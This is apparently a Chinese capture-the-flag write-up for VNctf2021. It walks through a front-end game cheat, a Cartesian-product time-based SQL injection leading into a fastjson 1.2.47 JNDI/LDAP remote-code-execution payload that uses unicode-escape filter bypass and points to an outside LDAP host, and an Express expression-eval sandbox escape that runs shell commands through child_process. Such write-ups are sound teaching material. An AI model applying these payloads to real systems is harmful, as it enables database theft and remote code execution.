










VNctf2021
Ez_game
是一个用js写的前端小游戏，直接找到初始化的函数将生命和武器调大

直接调用初始化函数Init()和NextLevel()函数跳关，通关即可

realezjvav
笛卡尔积注入以及fastjson RCE
进去以后是一个登录页面，提示数据量不大
猜测是sql注入，fuzz一下

报错注入，时间注入都被禁了，最终尝试笛卡尔积注入成功
payload
username=admin&password=1'and if((ascii(substr((select database(),1,1))<200),(SELECT count(*) FROM information_schema.columns A,information_schema.columns B),0);#
相应时间大概0.6s，最终跑出密码成功登陆
查看源码，发现一处可以任意文件读取

尝试读取springboot的pom.xml

看到了使用了fastjson，并且该版本有RCE,尝试利用
利用github上师傅的项目
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}
发现有过滤，后来大师傅说可以unicode绕过，然后找到P牛星球上的文章

将部分关键词替换unicode编码
利用大师傅的项目即可弹shell
附上链接https://github.com/CaijiOrz/fastjson-1.2.47-RCE
最终payload
{"name":{"\u0040\u0074\u0079\u0070\u0065":"java.lang.Class","val":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://106.15.250.31:1389/Exploit","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}}
navie
一道js配合re题，web🐶实在不会
源码奉上
import express from "express";
import bindings from "bindings";
import { fileURLToPath } from 'url'
import path from "path";
import pkg from 'expression-eval';
const { eval: eval_, parse } = pkg;
const addon = bindings("addon");
const file = fileURLToPath(import.meta.url);
const app = express();
app.use(express.urlencoded({ extended: true }));
app.use(express.static("static"));
app.use("/eval", (req, res) => {
const e = req.body.e;
const code = req.body.code;
if (!e || !code) {
res.send("wrong?");
return;
}
try {
if (addon.verify(code)) {
res.send(String(eval_(parse(e))));
} else {
res.send("wrong?");
}
} catch (e) {
console.log(e)
res.send("wrong?");
}
});
app.use("/source", (req, res) => {
let p = req.query.path || file;
p = path.resolve(path.dirname(file), p);
if (p.includes("flag")) {
res.send("no flag!");
} else {
res.sendFile(p);
}
});
app.use((err, req, res, next) => {
console.log(err)
res.redirect("index.html");
});
app.listen(process.env.PORT || 80);
看到导入了一个自己写的模块，并且可以读取文件
并且说明静态目录为static，可以尝试读取binding.gyp

或者去读运行的服务也可以读到

总之我们知道生成了一个addon模块，尝试去读addon模块
查阅资料知道默认会在./build/Release/下生成.node文件，也就是addon.node

下载后反编译拿到code(ps:我不会🐶)
利用constructor构造函数，并利用import动态导入
发现并无法弹shell，只能利用写入文件读
payload
e=(1).constructor.constructor("return import('child_process').then(child_process=>{child_process.exec('cat /flag > ./test ')})")();&code=yoshino-s_want_a_gf%2Cqq1735439536
